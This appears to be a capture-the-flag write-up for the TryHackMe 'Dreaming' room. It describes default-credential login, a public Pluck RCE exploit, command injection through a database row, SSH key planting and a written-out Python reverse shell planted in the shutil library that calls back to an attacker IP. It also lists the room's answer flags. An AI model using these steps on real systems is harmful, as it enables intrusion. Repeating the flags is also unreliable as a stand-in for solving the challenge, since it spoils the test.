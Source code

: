 # Dreaming
(Flags are at the end of the writeup)
### Recover the Kingdom!
Initial scan shows port 22 and 80 open: 

    nmap -p22,80 -sV -sC 10.10.88.80 -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-15 11:22 CEST
    Nmap scan report for 10.10.88.80
    Host is up (0.044s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
    |   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
    |_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 shows an empy web server, however after running gobuster, I found `/app`, which leads to a webpage that uses `pluck 4.7.13` as CMS. Googling online, I found that this version is vulnerable to authenticated RCE, and found the exploit code [here](https://github.com/0xAbbarhSF/CVE-2020-29607/blob/main/exploit.py).
I clicked on "admin", as showed in the picture below, and it led me to a login page: <br />
![image](https://github.com/user-attachments/assets/7876f7d0-ae68-4674-b691-e05dad7fd843)<br />
I quickly tried basic passwords like "admin" and "password", and I logged in using `password`. So now we can use the exploit that we found (the code is in `exploit.py` of this folder): <br />
![image](https://github.com/user-attachments/assets/699153ef-fab1-44c3-9347-0255335aa95a)<br />
And I now have a (really pretty) web shell: <br />
![image](https://github.com/user-attachments/assets/134acc85-9aba-4613-937b-286c09b4d589)<br />
But I really prefer a classic stabilized shell so i spawned one. After enumerating the machine, i found interesting files inside `/opt`. In particular: <br />
![image](https://github.com/user-attachments/assets/a7fce910-faf0-40a2-af07-edf37218746c)<br />
So I tried to log in as lucien using this password, with `su lucien`, `HeyLucien#@1999!`, and it worked. <br />
Inside lucien's home directory, I have access to his bash history and found something interesting:<br />
![image](https://github.com/user-attachments/assets/b68e5240-7cae-4680-ae8c-e62ad0f29c55)<br />
Also, running `sudo -l` as lucien reveals the following binary: <br />
![image](https://github.com/user-attachments/assets/c1e2c309-64f7-4f43-9f2e-9ae1b2a4bd15)<br />
I run it but it doesn't seem to be any useful:<br />
![image](https://github.com/user-attachments/assets/d17f877e-171d-4a9a-8999-ffa846874303)<br />
I also logged inside the myql database but I wasn't able to find anything useful.<br />
After a while I saw something interesting inside the code of `/opt/getDreams.py`.<br />
![image](https://github.com/user-attachments/assets/22b16128-77b9-4df9-8ced-4a629d55d439)<br />
 Basically it executes the command `echo dreamer + dream`, where `dreamer` and `dream` are the contents of the `library` database, the one on which we have access! So the idea is inject a command as a tuple of the table, so that it executes something like `echo dreamer +; /bin/bash`, something like that. Let's try.  <br />
 Move inside the `library` database, and run the following command `INSERT INTO dreams (dreamer, dream) VALUES ('; whoami #', 'Testing command injection');`. It worked!<br />
 ![image](https://github.com/user-attachments/assets/ed5e3baf-e98e-4d13-b471-e5a8edcf9817)<br />
Now let's insert a command to spawn a shell!<br />
![image](https://github.com/user-attachments/assets/781269c1-feb7-4e66-8973-d556b60706ee)<br />
It kinda worked, but the shell is not very interactive; the command works, but the shell doesn't give the answers back. So one way to make it interactive, is to use ssh:
<br />
On the attacker's machine: 

    ssh-keygen -t rsa -b 4096
On the target machine: 

    mkdir /home/death/.ssh
    echo "PUB_KEY" > home/death/.ssh/authorized_keys

Finally, on the attacker's machine:<br />

    ssh -i Priv_key death@10.10.1.99
And we have our interactive shell: <br />
![image](https://github.com/user-attachments/assets/e0153745-d255-49c2-ae7a-76ee2bf6a6bd)<br />
As death, we can now read his password from the `getDream.py` file:<br />
![image](https://github.com/user-attachments/assets/71a959b6-3513-435c-b01a-86ed8dc95d29)<br />
Now, if we look inside morpheus' home directory, we can see a .py file that we can read:<br />
![image](https://github.com/user-attachments/assets/4e69109e-7921-4d69-ade4-45267b49ca99)<br />
This file imports the shutil library, to which the death user has write access:<br />
![image](https://github.com/user-attachments/assets/f6038e64-7636-411d-b2c9-837bdf15ca66)<br />
We can then overwite this library with a reverse shell, and open a netcat listener, to check if this backup operation is actually a cronjob. Run `echo "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.90.188",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")" > /usr/lib/python3.8/shutil.py` and then on the attacker's machine `nc -lnvp 8888`, wait a minute and get morpheus flag :) 





- What is the Lucien Flag? `THM{TH3_L1BR4R14N}`
- What is the Death Flag? `THM{1M_TH3R3_4_TH3M}`
- What is the Morpheus Flag? `THM{DR34MS_5H4P3_TH3_W0RLD}`



